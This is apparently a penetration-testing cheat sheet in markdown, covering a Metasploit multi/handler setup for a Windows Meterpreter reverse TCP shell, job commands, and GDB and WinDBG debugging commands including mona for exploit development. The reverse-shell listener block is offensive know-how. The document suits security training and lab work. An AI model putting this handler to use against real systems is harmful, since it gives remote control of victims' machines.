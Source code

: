 ## MSFConsole

---

> ##### Reverse TCP

```
msfconsole> use multi/handler
msfconsole> set payload windows/meterpreter/reverse_tcp
msfconsole> set lhost 10.10.10.1
msfconsole> set lport 4444
msfconsole> set exitonsession false
msfconsole> set enablestageencoding true
```

> ##### Jobs

```
msfconsole> jobs -K
msfconsole> jobs -L
```

## GDB

---

> ##### Commands

```
disas - disassemble
b - breakpoint
c - continue
r - run
p - TODO
st - step
x - examine
```

> ##### Examples

```
gdb> disas main
gdb> b 0xd34dc0d3
gdb> x/200x $esp
```

## WinDBG

---

> ##### Commands

```
g - pass exception
gN - step
bp [address] - breakpoint
bl - list breakpoints
!exchain - view exception chain
.load pykd.pyd - load python
!py mona [command] [args] - exceute mona stuff
a -> [jmp address]
u [address] - inspect
u - view stack
t - step
```
